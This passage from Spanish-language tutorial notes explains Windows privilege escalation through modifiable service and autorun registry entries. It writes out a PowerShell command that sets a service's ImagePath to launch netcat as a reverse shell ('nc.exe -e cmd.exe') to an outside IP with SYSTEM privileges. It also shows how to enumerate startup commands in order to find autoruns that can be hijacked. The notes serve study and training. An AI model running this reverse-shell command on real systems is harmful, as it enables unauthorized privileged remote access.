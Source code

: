 ## 14) Cambiar `ImagePath` con PowerShell

**Comando del texto:**

```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

**Explicación de sintaxis:**

* `Set-ItemProperty` es un cmdlet de PowerShell para establecer el valor de una propiedad en un objeto, aquí una clave del registro.
* `-Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService` apunta a la clave de registro de servicio.
* `-Name "ImagePath"` especifica la propiedad a modificar.
* `-Value "..."` asigna el nuevo valor; en el ejemplo se pone una ruta a `nc.exe` con parámetros para intentar una conexión inversa.

**Consecuencia:** si el servicio se reinicia, Windows ejecutará lo que esté en `ImagePath` con privilegios del servicio (posible ejecución como SYSTEM si el servicio corre como LocalSystem).

---

## 15) Modifiable Registry Autorun Binary — comprobación de programas que se ejecutan al inicio

**Comando usado en el texto (PowerShell):**

```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
```

**Explicación de sintaxis:**

* `Get-CimInstance Win32_StartupCommand` consulta la clase WMI que contiene comandos/programas configurados para ejecutarse en el arranque o al inicio de sesión.
* `| select Name, command, Location, User` selecciona las columnas `Name`, `command`, `Location` y `User` para mostrar.
* `| fl` formatea la salida en estilo "list" (format-list) para facilitar la lectura.

**Salida de ejemplo en el texto:** muestra varias entradas como `OneDrive`, `Windscribe`, `SecurityHealth`, y `VMware User Process`, con su `command` y la `Location` del registro (por ejemplo `HKU\...\Run` o `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`).

**Relevancia:** si tenemos permisos para sobrescribir un binario apuntado por una de estas entradas o podemos escribir en la clave de registro correspondiente, podríamos conseguir ejecución al siguiente inicio o inicio de sesión del usuario afectado.

---

## 16) Referencias

El texto indica que existen posts y sitios con listados de múltiples ubicaciones de autorun en Windows. En este documento no se reproducen esas listas, solo se traduce y explica la sección presentada.


